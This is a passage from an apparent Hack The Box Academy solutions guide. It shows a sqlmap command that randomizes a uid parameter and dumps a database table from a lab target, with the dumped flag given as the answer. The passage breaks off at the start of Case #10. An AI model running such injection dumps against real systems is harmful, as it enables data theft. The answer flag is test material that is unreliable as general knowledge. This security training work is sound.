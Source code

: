 ![[HTB Solutions/CBBH/z. images/b6c3df01dec30be4b17910959dcdff62_MD5.jpg]]

Given that the `uid` is in the URL (students will have a different value for it), the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u "http://STMIP:STMPO/case9.php?id=1&uid=2946408471" --randomize=uid --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case9.php?id=1&uid=2946408471' --randomize=uid --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+

<SNIP>
```

Answer: `HTB{700_much_r4nd0mn355_f0r_my_74573}`

# Bypassing Web Application Protections

## Question 3

### "What's the contents of table flag10? (Case #10)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #10" to notice that they need to exploit the `POST` parameter `id`:

![[HTB Solutions/CBBH/z. images/0fe36a0d3530883c315bdce0c781040b_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

